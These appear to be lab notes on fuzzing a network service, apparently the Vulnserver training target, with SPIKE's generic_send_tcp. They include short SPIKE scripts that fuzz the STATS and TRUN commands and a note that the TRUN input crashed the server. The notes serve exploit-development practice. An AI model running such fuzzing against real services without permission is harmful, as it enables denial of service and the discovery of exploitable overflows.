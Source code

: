 target 192.168.1.69 9999

```shell
generic_send_tcp
```



making a file called stats.spk

```shell
s_readline();
s_string("STATS ");
s_string_variable("0");

```

```shell
generic_send_tcp {ipaddress port} stats.spk 0 0 
```

this would spike the command for stats
now we make one for a new command this time TRUN

making a file called trun.spk

```shell
s_readline();
s_string("TRUN ");
s_string_variable("0");

```

```shell
generic_send_tcp {ipaddress port} trun.spk 0 0 
```

![[Pasted image 20231229133306.png]]server crashed and paused


